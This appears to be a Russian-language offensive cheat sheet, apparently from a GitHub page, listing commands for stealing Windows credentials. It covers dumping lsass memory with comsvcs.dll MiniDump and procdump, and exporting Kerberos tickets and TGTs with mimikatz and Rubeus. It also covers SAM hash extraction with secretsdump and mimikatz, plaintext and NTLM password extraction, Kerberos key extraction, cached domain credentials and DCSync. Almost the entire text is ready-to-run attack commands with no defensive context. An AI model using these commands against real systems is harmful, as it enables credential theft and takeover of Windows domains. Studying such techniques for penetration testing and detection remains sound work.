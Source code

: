 ## Извлечение Kerberos-tickest через дамп виртуальной памяти:
**Три способа дампа памяти:**  
1) taskmgr.exe → ПКМ по lsass.exe → дамп памяти;  
2) rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full  
3) procdump.exe -ma lsass.exe /accepteula.  
  
Если дамп удалось создать, то билеты можно безопасно извлечь уже на своей стороне:  
mimikatz.exe -> sekurlsa::Minidump lsass.dmp -> sekurlsa::tickets /export  
  
## Извлечение Kerberos-tickest (Rubeus):  
**Список доступных тикетов**: Rubeus.exe triage  
**Извлекаем TGT пользователя**: Rubeus.exe dump /luid:0xfffff /service:krbtgt /nowrap  
**Aditional information**: Tickets for the service name krbtgt are Ticket Granting Tickets (TGTs) and others are Ticket Granting Service Tickets (TGSs).  

## Извлечение хешей SAM (нужны учетные данные пользователя):  
secretsdump.py [domain]/[username]:[password]@[TARGET IP]  

## Извлечение хешей SAM (mimikatz):  
\mimikatz.exe token::elevate lsadump::sam exit  

## Извлечение NTLM/plaintext passwords (mimikatz):  
\mimikatz.exe token::elevate sekurlsa::logonpasswords exit  

## Извлечение Kerberos Encryption Keys (mimikatz): extract aes256_hmac value  
\mimikatz.exe token::elevate sekurlsa::ekeys exit  

## Domain cached credentials:  
**позволяет исользовать учетные данные домена, если нет связи с DC**: \mimikatz.exe token::elevate lsadump::cache exit  

## DCSync (mimikatz):  
\mimikatz.exe token::elevate lsadump::dcsync exit  

